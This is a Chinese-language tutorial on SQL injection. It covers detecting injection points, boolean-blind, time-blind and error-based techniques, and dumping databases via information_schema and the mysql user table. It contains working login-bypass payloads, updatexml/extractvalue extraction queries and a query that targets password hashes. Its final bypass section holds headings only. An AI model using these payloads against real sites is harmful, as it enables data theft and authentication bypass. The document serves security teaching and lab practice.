






# SQL注入

---


## 一、SQL注入概念

​	SQL注入是一种常见的网络安全漏洞，它允许攻击者利用应用程序中的漏洞，向数据库中注入恶意的SQL代码。这种攻击通常发生在需要用户输入的网页表单或URL参数上，攻击者利用这些输入框没有进行有效的过滤或验证，将恶意的SQL代码插入到数据库查询中。

攻击者可以利用SQL注入来执行各种恶意操作，包括：

1. **窃取敏感信息：** 通过修改SQL查询，攻击者可以访问数据库中的敏感数据，如用户凭证、个人信息等。
2. **修改和删除数据：** 攻击者可以修改数据库中的数据，甚至删除整个数据库的内容。
3. **获取系统权限：** 如果应用程序与数据库连接的权限高于必要的权限，攻击者可以利用SQL注入来获取更高级别的权限，甚至控制整个系统。

​	防止SQL注入攻击的方法包括使用参数化查询（预编译语句）、严格的输入验证、限制数据库用户的权限以及定期对系统进行安全审计和更新。这些措施有助于减少应用程序中的漏洞，提高安全性。


## 二、SQL注入步骤

### 	1、判断注入点

#### 按照数据类型判断：

* **数字型注入点：**

​	数字型注入点的SQL原句一般为

```sql
select * from 表名 where id=?;
```

​	此时一般输入的payload为`1 and 1=1 --+`，此时组合起来的SQL语句为：

```sql
select * from 表名 where id=1 and 1=1 --+;
```

​	and表示两者同为`True`时，返回值为`True`，否则为`False`。如果输入这个payload，代码没有报错，且页面数据正常显示，则可以继续尝试：`1 and 1=2 --+`

```sql
select * from 表名 where id=1 and 1=2 --+;
```

​	很明显这个值为`False`，此时如果代码报错，或页面回显数据，则证明这里存在一个数字型的注入点。

* **字符型注入点：**

​	字符型注入点的SQL原句一般为：

```sql
select * from 表名 where name='';
```

​	比起数字型的SQL语句，字符型的SQL语句多了引号，那么就要考虑到引号闭合的问题，一般做法为先使用单引号`'`尝试是否能SQL语句报错，然后构建payload：`1' and 1=1 --+ `，此时组合起来的SQL语句为：

```sql
select * from 表名 where name='1' and 1=1 --+';
```

​	使用`'`提前闭合引号，然后继续使用与运算，判断代码是否报错，最后用注释符注释掉多余的引号，如果这个代码没有报错且页面数据正常显示，可继续尝试：

```sql
select * from 表名 where name='1' and 1=2; --+'
```

​	如果这个代码报错，或页面无回显，则说明此处很有可能存在SQL注入点。

* **搜索型注入点：**

  搜索型一般使用like关键字，模糊匹配数据库中的相关数据，SQL原句为：

```sql
select * from 表名 where 字段 like `%关键字%`;
# eg: select `name`,`gender` from student where name like '%admin%';
```

​	其中like关键字之后的值为用户传入的值，因此，要闭合需要用到`%'`，如此，可以尝试构建payload：`admin%' and 1=1 --+`，此时，SQL语句被更改为：

```sql
select * from 表名 where 字段 like `%admin%` and 1=1 --+ %`;
```

​	此时，若代码无报错，或页面内容回显正常，则可以进一步尝试：`admin%' and 1=2 --+`

```sql
select * from 表名 where 字段 like `%admin%` and 1=2 --+ %`;
```

​	若此时代码报错，或页面无回显，则说明此处可能存在注入点，可以进行下一步测试。

#### 按照数据提交方式判断：

* **GET请求**

  对于web端，GET请求传递数据一般表现在URL中，例如:

```http
http://www.example.com/index.php?id=1
```

​       其中，`?`后面就代表传递的参数，id为注入点。一些payload可以借助url传递给后端，如：

```http
http://www.example.com/index.php?id=1 and 1=1 --+
```

​       然后判断是否有回显页面，如果回显正常，说明这个语句没有引起后端查询程序的报错，进一步尝试其他的：

```http
http://www.example.com/index.php?id=1 and 1=2 --+
```

​        一般，由于这个语句的布尔值为`False`因此，如果注入成功，则页面无回显数据，反之，则证明注入失败，则需要考虑前面提到的通过数据类型判断注入点。

* **POST请求**

  使用POST请求提交表单数据，注入点一般在POST数据部分，例如登录框，注册框等。

```sql
常用的万能username语句：
 a' or 1=1 #
 a") or 1=1 #
 a') or 1=1 #
 a" or "1"="1
 ' or '1'='1
 ' or (length(database())) = 8  (用于输入’ “都没有错误)
 ' or (ascii(substr((select database()) ,1,1))) = 115 # (用于输入’ “都没有错误)
 ") or ("1")=("1
 ") or 1=1 or if(1=1, sleep(1), null)  #
 ") or (length(database())) = 8 #
 ") or (ascii(substr((select database()) ,1,1))) = 115  or if(1=1, sleep(1), null)  #
```

​        POST型注入通杀payload：

```sql
uname=admin%df'or()or%200%23&passwd=&submit=Submit
```

​        与GET请求不同的是，绝大部分POST请求注入都是无回显的，一般很难判断是否注入成功。所以一般使用时间盲注，即使用sleep函数判断代码执行情况。

#### 按照执行效果判断：

* **布尔盲注**

  ​	对于布尔类型的回显，为什么说是盲注呢，因为后端返回过来的数据一般为一个布尔类型，即为`True`or`False`，前端根据布尔值返回特定的内容。因此无法从回显的内容中获取数据库信息。例如在SQLi-LABS中的第五关：

  

  ​	可以看到，当注入成功时，如果条件为`True`回显的页面只有一个`You are in .....`，而条件为`False`则没有任何内容，如下图：

  

  ​	虽然这个页面只有两种`True`和`False`两种回显内容，但是只要用对方法，我们同样也可以获取数据。举个例子：我想知道当前数据库的名字的长度是多少，我可以使用以下payload：

  ```sql
  ?id=1' and length(database())<5 --+
  ```

  ​	这个payload做了一个判断，假如当前数据库的名字的长度小于5，则条件为`True`则页面有内容，反之，则没有内容。通过GET请求提交后发现页面没有内容，则说明数据库长度大于5。

  

  ​	继续测试：

  ```sql
  ?id=1' and length(database())=8 --+
  ```

  

  ​	可以看见，这一次页面有内容了，说明数据库名字的长度为8个字符。

  ​	这只是一次简单的尝试，布尔注入还有更多的payload，一般都是通过枚举的方法，逐个测试字符，然后通过判断页面是否有内容，从而来获取数据。一般用到的函数：

  ```sql
  Length（）函数 返回字符串的长度
  Substr（）截取字符串
  Ascii（）返回字符的ascii码
  sleep(n)：将程序挂起一段时间 n为n秒
  if(expr1,expr2,expr3):判断语句 如果第一个语句正确就执行第二个语句如果错误执行第三个语句
  ```

* **时间盲注**

  ​        基于时间的盲注，一般用到sleep函数，目的是通过判断页面代码是否延迟执行，进而判断是否有SQL注入的可能。一般在登录框或注册框这种，无法通过回显获取任何信息的页面会用到时间盲注。例如这样一个网站：

  ​	类似于这种登录框，我们的注入点往往是用户名或邮箱的输入框，而并非是密码的输入框，因为一般后端的查询语句为：

  ```sql
  SELECT `password` FROM `accounts` WHERE `email` = '$email'
  ```

  ​	通过前端传回来的用户名或邮箱，查询对应的密码，然后对密码进行判断，正确则返回`True`否则返回`False`。


* **报错注入**

  ​	在sql注入中如果后端开启了错误回显，则攻击者可以利用回显数据进行报错注入。常见的payload有：

  ```sql
  id=1 and updatexml(1, concat(0x7e, database(), 0x7e), 1) #
  extractvalue(1, concat(0x5c, (select version()))) #
  ```

  ​	利用`updatexml()`和`extractvalue()`这两个函数的特性（第二个参数必须是XPath格式），凭借特殊字符，构建非法的XPath，从而引起服务器报错，回显错误消息，例如：

  

  ​	如图，报错注入成功爆出数据库名称。同理，利用子查询或者其他语句即可爆出数据表和字段。


### 2、拖库

#### 关键数据库和数据表以及字段：

+ **information_schema库**

  information_schema库中有两张较为重要的表，准确的说是两个视图。视图是虚拟表，它将其它表的数据整合到一起，方便查询。这两个视图分别是：`TABLES`，`COLUMNS`。分别记录：表信息，字段信息。

  + **TABLES视图**

    TABLES视图下，有几个重要的字段：

    + `TABLE_SCHEMA`：表所属的数据库名称;
    + `TABLE_NAME`：表名称 ;
    + `TABLES_ROWS`：表中行数;

  + **COLUMNS视图**

    COLUMNS视图有以下重要字段

    + `TABLE_SCHEMA`：列所在的数据库名称;
    + `TABLE_NAME`：列所在的表的名称;
    + `COLUMN_NAME`：列的名称；
    + `ORDINAL_POSITION`：列在表中的顺序位置;
    + `DATA_TYPE`：列的数据类型

+ **mysql库**

  mysql库中比较重要的表有`user`，`db`，`host`。作用分别为：

  + **user表：**

    存储MySQL服务器上所有用户的账户信息和全局权限。user比较重要的字段有：

    + `Host`：允许访问的主机;
    + `User`：用户名;
    + `authentication_string`：哈希密文(有的版本的字段名为`password`);

  + **db表**：

    存储数据库级别的权限，包括数据库名、用户、主机名以及用户在特定数据库上的权限。

  + **host表**：

    提供基于主机的访问控制，包含主机名和与该主机相关的数据库访问权限。


#### 从information_schema库中获取数据

+ **拖库常用的函数**

  + `concat()`：串联字符串。
  + `group_concat()`：将多行合并为单个长字符串，常用于绕过`limit 0, 1`的限制。
  + `substring()`：提取字符串的一部分。
  + `ascii()`：返回字符的ASCII值。
  + `cats()`、`convert()`：在不同的数据类型之间转换数据。

+ **信息架构查询**

  + **列出所有数据库**

    ```sql
    select schema_name from information_schema.schemata
    // 如果碰到limit 0, 1的限制，可以使用group_concat()函数
    select group_concat(schema_name) from information_schema.schemata
    // 利用报错注入
    updatexml(1,concat(0x7e, (select group_concat(schema_name) from information_schema.schemata), 0x7e),1)
    ```

    

  + **列出特定数据库中的所有表**
  
    ```sql
    select table_name from information_schema.tables where table_schema = 'dbname';
    // 如果碰到limit 0, 1的限制，可以使用group_concat()函数
    select group_concat(table_name) from information_schema.tables where table_schema = 'dbname';
    // 报错注入
    updatexml(1,concat(0x7e, (select group_concat(table_name) from information_schema.tables where table_schema = 'dbname'), 0x7e),1)
    ```

    
  
  + **列出特定表中的所有列**
  
    ```sql
    select column_name from information_schema.columns where table_name='tablename';
    // 如果碰到limit 0, 1的限制，可以使用group_concat()函数
    select group_concat(column_name) from information_schema.columns where table_name = 'tablename';
    // 报错注入
    updatexml(1,concat(0x7e, (select group_concat(column_name) from information_schema.columns where table_name = 'tablename'), 0x7e),1)
    ```
  
    
  
  + **数据检索**

    ```sql
    select column_name from table_name;  # 标准的查询语句
    # 使用group_concat()聚合结果
    select group_concat(column_name) from table_name
    ```
  
    
  
  > 如此一套组合拳下来，数据库的内容基本被拖光了。

### 3、其他注入及绕过方法

#### 宽字节注入

+ 宽字节注入是一种特殊类型的SQL注入攻击

#### 堆叠注入

#### 代码文件注入

#### 二次注入

#### 大小写绕过

#### URL编码绕过
